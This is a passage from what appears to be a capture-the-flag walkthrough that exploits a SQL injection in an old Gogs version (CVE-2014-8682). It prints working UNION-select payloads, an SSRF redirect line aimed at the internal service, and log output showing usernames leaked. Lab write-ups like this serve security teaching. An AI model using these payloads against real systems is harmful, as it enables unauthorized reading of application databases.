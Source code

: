 ### SQL Injection

#### Identify

There's an SQL injection vulnerability in this version of Gogs,
[CVE-2014-8682](https://github.com/advisories/GHSA-g6xv-8q23-w2q3). This
[exploitDB](https://www.exploit-db.com/exploits/35238) entry has a few
payloads for this. I'll start with this one as it seems the simplest to
understand what it is doing:



    http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
    select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
    null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
    /**/mysql.db/**/where/**/('%25'%3D'



There's a UNION injection. The table it should be reading from clearly
has 27 columns, which the POC is filling with mostly `null`, but putting
the version in the third column. That's because that's one of the
columns that is displayed back in the output. It also seems like it
can't use spaces, but is using `/**/` instead.

#### POC

I'll test this out by updating the payload to point to Health's Gogs
just like this, but it doesn't work.

I'm going to simplify the payload a bit:



        target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-"
        return redirect(target)



This should just try to read numbers into the query, and it works:



    10.10.11.176 - - [06/Jan/2023 22:04:10] "GET /redirect HTTP/1.0" 302 -
    Got Hook!
    {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"3","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '166', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:04:10 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
    10.10.11.176 - - [06/Jan/2023 22:04:10] "POST /hook HTTP/1.1" 200 -



It's giving info about "susanne" as well as about "3".

#### Id Database
